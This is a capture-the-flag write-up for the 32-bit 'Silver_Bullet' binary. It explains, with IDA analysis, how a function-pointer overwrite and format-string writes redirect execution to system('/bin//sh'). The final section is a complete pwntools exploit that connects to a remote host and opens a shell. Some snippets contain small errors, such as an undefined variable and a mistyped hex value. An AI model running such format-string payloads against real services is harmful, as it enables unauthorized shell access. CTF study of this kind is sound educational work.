










**Points:** Dynamic

**Solves:** 36

**Description:**

> You've got one silver bullet, pull the triggle carefully!

**Given:**

[Silver_Bullet]()


We're given 32-bit Linux binary:

```
Silver_Bullet: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4e82d2545f78e6611f83f48a98f2ad3a90d4d03b, stripped
```

# Understanding the problem

Running **checksec** on the binary:



  Relro: As we can see the binary is compiled with full relro so GOT is read-only.

  Stack:There is no stack cookie between saved return address and buffers.

  NX: Areas of memory are either executable or writable.

  PIE: Code segment is always placed on the same address.

## Getting a look at the binary

By running the elf we see that it echo's our input and prints Call2, goodbye.

Just by interacting with the program let's search for some common vulnerabilities.

1-Search for a **buffer overflow**.

  


2-Search for a **format string vuln**.




So just by interacting with the program we got to know there might a buffer overflow and a format string vulnerability (although we can't write to GOT).

## Opening IDA

If we look at the functions imported we see **system** which gives us a good direction in terms of what we have to do...

We probably will need to jump to the function that is calling system, so let's see where it is.

Let's see who's calling **system**.



 **sub_8048695** is calling **system**.

Let's have a look at it.



We can see that this function receives an argument, arg_0, and simple calls system(arg_0).
To be easier to remember we're going to call it **call_system**.

Looking again at the xrefs we see that sub_80486C7 is calling **call_system**.



By looking at the logic of this function, to jump to **call_system** the address 0x804A02C must be equal to one and the **argument** is at the address 0x804A30, both of this address are in the bss memory which has read/write permissions, let's call this function **choose_arg**.


# Analyse main function

Main allocates a buffer of size **0x108**, let's call it **input**, and reads from stdin **0x100** bytes. So there's no buffer overflow? Segfault can't be happening on main then. Another way to see it is that **exit()** is called, therefore the return address is never "poped" from the stack.
We can see that main is calling a function, sub_804872D, with a pointer to our input as argument. Let's call this function **vuln**.



# Analyse the vuln function
First it compares our input with "1" and depending on the result it places a pointer to a function on the stack, both functions are uninteresting they just print to stdout different things: "Call1, goodbye" ; "Call2, goodbye".
After **vuln** prints our input, then copies it to the stack, to the **destination** address, remember that **main** read 0x100, we see that there is an overflow of the pointer_to_function.

Note that it is not possible to overwrite the return address because a check is done in order to prevent it, so the only option here is to **overwrite** the **function_pointer**.

Before the call to **function_pointer** is made, a simple check is done, the content of the "**function_pointer** - 0x4" must be "0x4EC8310" so we can't jump to wherever we want.

Searching the binary with this opcode we find 6 occurrences one of them being the **choose_arg** function that we've analysed before.

At this point its pretty obvious that we need to overwrite **function_pointer** with **choose_arg** function pointer.


Distance between **destination** and **function_pointer** is less than 0x100 so a overwrite on **function_pointer** possible.


# What we know

  We can overwrite the **pointer_function** so the program calls **choose_arg** instead.

  We must place the value 1 on the address "0x804A02C" and we have to put an address on "0x804A030" that points to system **argument** in order to call **call_system(argument)**.

# The Exploit

## First Part
To overwrite the **function_pointer** we need 20 bytes of padding.
```python
choose_arg = 0x80486C7
function_pointer = p32(choose_arg)
payload = 'A'*20 + function_pointer
```
## Second Part
Like this we're jumping to **choose_arg** function but because content of "0x0804A02C" != 1, the program flow is not reaching **call_system**.

Writing to an arbitrary address with a format string vulnerability is pretty easy, but it will print at least 4 characters, the address where we want to write to, but we need to write  the value 1. So if the minimum value we can write to an address is 4 how can we write the value 1?
>Remember: we need to write 1 on the address "0x0804A02C".

Well this is a bit tricky, what we can do is write  to "0x804A02C-0x1"  0x100 placing "00" on "0x0804A02b" and "01" on the address "0x804A02C".
```
Data segment layout will look like:

0x804A02B->00
0x804A02C->01

There was an "overflow" and we started to write to "0x804A02C"
```

```python
write_0x100_addr = p32(0x804A02B)
choose_arg = 0x80486C7
function_pointer = p32(choose_arg)

payload  = write_0x100
payload += "%s" + str(0x100-0x4) + "p" + "%20$n" #want to write 0x100, but we have printed 4 bytes from write_0x100_addr
payload  = payload.ljust(20, 'A') #fill with 'A' until len = 20 so we can overwrite function_pointer
payload += function_pointer
```
## Final Part
Now we need to set the argument for **call_system**.

As we know the address "0x804A030" contains a pointer to the **call_system** argument, but it was not initialized, and we wish it as a pointer to /bin/sh string

We have to do 2 things.

  1.write /bin/sh to somewhere in memory.

  2.write the address of /bin/sh in 0x0804A030

We need to find a place we're we can both write and read. As we've seen before bss has those permissions.
Through format string vuln we can do both writes so let's place our string in "0x0804A020".

The string used was /bin//sh.
```
Note: We probably could use just "sh" and the result would be the same but much more simpler and easy.
```

Then we simply need to write in "0x0804A030" the address of the string "0x0804A020"
```
The data segment will look like this:


0x0804A020 -> "b/" = 0x622f
0x0804A022 -> "ni" = 0x6e60
0x0804A024 -> "//" = 0x2f2f
0x0804A026 -> "hs" = 0x6873
    ...
0x0804A030 -> 0x0804
0x0804A032 -> 0xA020
```

We will write to the addresses  2 byte at the same time.

## Placing the addresses on the stack

The order at which the addresses are put on the **input** buffer is irrelevant, we just need to be careful with the offset.
```python
write_0x100_addr = p32(0x0804A02b)
choose_arg = 0x080486C7
function_pointer = p32(choose_arg)
bin_sh_addr = 0x0804A020
arg_addr = 0x0804A030

payload  = write_0x100_addr
payload += "%"+str(0x100-4)+"p"+ "%20$n"
payload = payload.ljust(20, "A") #  = 6*'A'
payload += function_pointer

payload += p32(arg_addr+2) # offset 26
payload += p32(arg_addr) # offset 27
payload += p32(bin_sh_addr+4) # offset 28
payload += p32(bin_sh_addr) # offset 29
payload += p32(bin_sh_addr+6) # offset 30
payload += p32(bin_sh_addr+2) # offset 31
# written 0x122 = 290
```
```
The stack will look like this:

0x0804A032
0x0804A030
0x0804A024
0x0804A020
0x0804A026
0x0804A022
Note: It could have another layout but we would need to change the offset's.
```
So far we have written 0x100 + 6('A') + 4*7 = 0x122 bytes

Now we need to write in ascending order:
```
1. 0x0804
2. 0x2f2f
3. 0x622f
4. 0x6873
5. 0x6e60
6. 0xA020

Since we have already printed 0x122 bytes, then we need to print 0x0804-0x122 = 1762 bytes in order to write 0x0804.
Now we have printed 0x0804 bytes, so to write 0x2f2f to the address we actually need to print 0x2f2f-0x804 = 10027, and so on...

```

# Final Exploit
```python
from pwn import *

write_0x100_addr = p32(0x0804A02b)
choose_arg = 0x080486C7
function_pointer = p32(choose_arg)
bin_sh_addr = 0x0804A020
arg_addr = 0x0804A030

payload  = write_0x100_addr
payload += "%"+str(0x100-4)+"p"+ "%20$n"
payload = payload.ljust(20, "A")
payload += function_pointer
payload += p32(arg_addr+2)
payload += p32(arg_addr)
payload += p32(bin_sh_addr+4)
payload += p32(bin_sh_addr)
payload += p32(bin_sh_addr+6)
payload += p32(bin_sh_addr+2)
#written 0x122 = 290

payload += "%1762p"
payload += "%26$hn"
#written 0x804

payload += "%10027p"
payload += "%28$hn"
#written 0x2f2f

payload += "%13056p"
payload += "%29$hn"
#written 0x622f

payload += "%1604p"
payload += "%30$hn"
#written 0x6873

payload += "%1526p"
payload += "%31$hn"
#written 0x6e69

payload += "%12727p"
payload += "%27$hn"


p = remote("37.139.17.37", 7331)
p.sendline(payload)
p.interactive() # got shell
p.close()
```

